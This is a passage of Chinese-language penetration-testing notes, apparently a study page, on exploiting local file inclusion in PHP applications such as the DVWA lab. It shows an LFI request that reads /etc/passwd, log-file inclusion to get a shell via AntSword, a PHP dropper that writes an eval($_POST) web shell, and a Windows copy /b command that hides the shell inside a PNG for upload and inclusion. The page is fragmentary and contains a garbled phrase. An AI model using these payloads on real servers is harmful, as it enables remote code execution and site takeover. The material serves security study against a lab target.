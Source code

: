 > 注:后面两个必须要在开启远程文件上传配置的情况下

 

> ！已知一个网站存在本地文件包含漏洞，没有我呢间上传API，如何利用？
>
> ​    1、包含本地日志文件getshell
>
> ​        日志文件的路径
>
> ![img](71、文件包含漏洞/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201111215412887.png)
>
> ​        [?path=c:\phpstudy\apache\log\error.log]
>
> ​        用蚁剑连接    
>
> ​    2、包含session 文件，造成sessionId 泄露
>
>   ！metinfov5.0.4 文件包含漏洞代码审计



# 上传图片

```sh
http://192.168.83.146/dvwa/vulnerabilities/fi/?page=/etc/passwd
```

文件需要小于5kb

先用windows合并木马 c盘下  以管理员身份打开cmd

```sh
<?fputs(fopen("shell.php","w"),'<?php eval($_POST[caidao]);?>')?>
```

```sh
copy git.png /b +shell.php /a 111.png
```

上传图片 ，得到路径

```sh
../../hackable/uploads/111.png
```

